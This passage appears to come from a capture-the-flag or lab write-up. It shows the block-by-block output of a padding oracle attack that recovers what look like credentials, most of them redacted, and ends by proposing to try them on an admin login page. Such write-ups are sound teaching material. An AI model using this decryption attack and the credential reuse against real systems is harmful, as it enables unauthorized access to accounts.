 ```bash
[+] Cipher Text (HEX): ea0dcc6e567f96414433ddf5dc29cdd5
[+] Intermediate Bytes (HEX): 4a4153075457000800050d565601047a
[+] Plain Text: stefan1197:ebb2B

*** Starting Block 2 of 4 ***
[+] Success: (30/256) [Byte 16]
<SNIP>
[+] Success: (51/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): <REDACTED>
[+] Intermediate Bytes (HEX): <REDACTED>
[+] Plain Text: <REDACTED>

*** Starting Block 3 of 4 ***
[+] Success: (9/256) [Byte 16]
<SNIP>
[+] Success: (76/256) [Byte 1]

Block 3 Results:
[+] Cipher Text (HEX): <REDACTED>
[+] Intermediate Bytes (HEX): <REDACTED>
[+] Plain Text: <REDACTED>

*** Starting Block 4 of 4 ***
[+] Success: (59/256) [Byte 16]
<SNIP>
[+] Success: (37/256) [Byte 1]

Block 4 Results:
[+] Cipher Text (HEX): <REDACTED>
[+] Intermediate Bytes (HEX): <REDACTED>
[+] Plain Text: 9

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): stefan1197:<REDACTED>
[+] Decrypted value (HEX): <REDACTED>
[+] Decrypted value (Base64): <REDACTED>

-------------------------------------------------------
```

The decrypted payload appears like a pair of credentials. We can attempt to use these credentials on the admin login page we saw above.